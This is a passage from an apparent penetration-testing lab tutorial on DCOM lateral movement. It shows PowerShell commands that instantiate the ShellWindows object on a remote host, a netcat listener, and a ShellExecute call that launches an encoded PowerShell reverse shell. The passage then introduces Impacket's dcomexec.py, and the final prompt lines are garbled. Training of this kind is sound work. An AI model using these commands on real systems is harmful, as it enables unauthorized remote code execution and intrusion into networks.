 We won't be able to use this technique in this lab because it doesn't have all the required components. However, if we find a server where those components exist, we can use this method to perform remote code execution. This technique involves instantiating the `ShellWindows` object.

```powershell
PS C:\Tools> $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","SRV02"))

```

```powershell
PS C:\Tools\> $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","172.20.0.52"))

```

**Note:** These command will cause an error in the lab.

Now, let's start listening with `Netcat`:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080

```

After that, we can execute any command using the `ShellExecute` method of the `Document.Application` property. We will use `cmd.exe` to execute our payload. We will be using a PowerShell reverse shell payload from [revshells.com](https://revshells.com):

```powershell
PS C:\Tools\> $shell[0].Document.Application.ShellExecute("cmd.exe","/c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==","C:\Windows\System32",$null,0)

```

Finally, we can confirm that we have successfully established a reverse shell connection:

```shell
Connection received on 172.20.0.52 50105

PS C:\Windows\system32> hostname
SRV02

```

## Lateral Movement From Linux

To perform `DCOM` lateral movement from Linux systems we must use the [Impacket](https://github.com/fortra/impacket) toolset which is a suite of Python libraries designed for interacting with network protocols. In this section, we will be using [dcomexec.py](https://github.com/fortra/impacket/blob/master/examples/dcomexec.py).

### dcomexec.py

`dcomexec.py` from Impacket provides an interactive shell on a remote Windows host, similar to `wmiexec.py`, but utilizes different `DCOM` endpoints for command execution. It operates over TCP port 445, retrieving output via the `ADMIN$` share. This tool supports `DCOM` objects like `MMC20.Application`, `ShellWindows`, and `ShellBrowserWindow`, offering alternative remote execution methods.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>